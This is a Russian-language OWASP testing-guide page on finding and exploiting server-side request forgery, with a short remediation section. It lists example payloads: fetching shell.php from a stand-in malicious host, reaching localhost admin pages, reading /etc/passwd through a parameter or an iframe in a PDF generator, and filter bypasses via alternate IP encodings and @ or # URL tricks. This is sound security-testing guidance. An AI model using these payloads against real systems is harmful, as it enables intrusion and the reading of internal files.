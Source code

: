 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование подделки запроса на стороне сервера

|ID          |
|------------|
|WSTG-INPV-19|

## Обзор

Web-приложения часто взаимодействуют с внутренними или внешними ресурсами. Хотя вы можете ожидать, что обрабатывать отправляемые вами данные будет только предназначенный для этого ресурс, неправильно обработанные данные могут создать ситуацию, в которой возможны атаки путём инъекции. Одним из видов инъекций является подделка запросов на стороне сервера (SSRF). Успешная атака SSRF может предоставить злоумышленнику доступ к ограниченным действиям, внутренним службам или внутренним файлам в приложении или организации. В некоторых случаях это даже может привести к удалённому выполнению кода (RCE).

## Задачи тестирования

- Найти точки для инъекции SSRF.
- Протестировать, пригодны ли эти точки для эксплуатации.
- Оцените воздействие уязвимости.

## Как тестировать

При тестировании на SSRF вы пытаетесь заставить целевой сервер непреднамеренно загружать или сохранять содержимое, которое может быть вредоносным. Самый распространённый тест — локальное и удаленное включение файлов. Есть ещё один аспект SSRF: доверительные отношения, которые часто возникают, когда сервер приложений может взаимодействовать с другими бэкенд-серверами, недоступными для пользователей напрямую. Эти серверы часто имеют немаршрутизируемые частные IP-адреса или ограничены определёнными хостами. Поскольку они защищены топологией сети, им часто не хватает более сложных элементов управления. Эти внутренние системы часто содержат конфиденциальные данные или функции.

Рассмотрите следующий запрос:

``` http
GET https://example.com/page?page=about.php
```

Вы можете протестировать этот запрос с полезными нагрузками, представленными ниже.

### Загрузить содержимое файла

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Обратиться к странице с ограниченным доступом

```http
GET https://example.com/page?page=http://localhost/admin
```

Или:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Используйте интерфейс обратной связи для доступа к контенту, доступ к которому ограничен только хостом. Этот механизм подразумевает, что если у вас есть доступ к хосту, у вас также есть привилегии для прямого доступа к странице `admin`.

Такого рода доверительные отношения, при которых запросы, исходящие с локального компьютера, обрабатываются иначе, чем все остальные, часто делают SSRF критической уязвимостью.

### Извлечь локальный файл

```http
GET https://example.com/page?page=file:///etc/passwd
```

### Используемые HTTP-методы

Все приведенные выше полезные данные могут применяться к любому типу HTTP-запроса, а также могут быть вставлены в значения заголовков и cookie.

Одно важное замечание относительно SSRF с POST-запросами заключается в том, что SSRF также может проявляться вслепую, потому что приложение может сразу ничего и не выдавать. Вместо этого введённые данные могут использоваться в других функциях, таких как отчёты в формате PDF, обработка счетов-фактур или заказов и т.д., которые могут быть видны сотрудникам или персоналу, но не обязательно конечному пользователю или тестировщику.

Узнать больше о слепом SSRF можно [здесь](https://portswigger.net/web-security/ssrf/blind), или в [разделе ссылок](#ссылки).

### Генераторы PDF

В некоторых случаях сервер может конвертировать загруженные файлы в формат PDF. Попробуйте вставить элементы `<iframe>`, `<img>`, `<base>` или `<script>` или функцию CSS `url()`, указывающие на внутренние службы.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Распространённые пути обхода фильтра

Некоторые приложения блокируют ссылки на `localhost` и `127.0.0.1`. Это можно обойти с помощью:

- Использование альтернативного представления IP-адреса, которое эквивалентно `127.0.0.1`:
    - Десятичное: `2130706433`
    - Восьмеричное: `017700000001`
    - Сокращённая запись IP: `127.1`
- Обфускация строк
- Регистрация собственного домена, который разрешается в `127.0.0.1`

Иногда приложение допускает ввод, соответствующий только определённому выражению, например домену. Это можно обойти, если неправильно реализован парсер схемы URL, что может привести к следующим [семантическим атакам](https://datatracker.ietf.org/doc/html/rfc3986#section-7.6):

- использованию символа `@` для разделения информации о пользователе и хосте: `https://expected-domain@attacker-domain`;
- URL-фрагменты с помощью символа `#`: `https://attacker-domain#expected-domain`;
- URL-кодировка;
- фаззинг;
- сочетания из всего вышеперечисленного.

Дополнительные полезные нагрузки и методы обхода см. в разделе [Ссылки](#ссылки).

## Как исправить

Известно, что SSRF — одна из самых сложных атак, которую невозможно отразить без использования «белых» списков, требующих указания конкретных IP- и URL-адресов. Подробнее о защите от SSRF см. в [Памятке по предотвращению подделки запросов на стороне сервера](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Ссылки

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd: SSRF](https://www.bugcrowd.com/glossary/server-side-request-forgery-ssrf/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [Общий синтаксис URI](https://datatracker.ietf.org/doc/html/rfc3986)
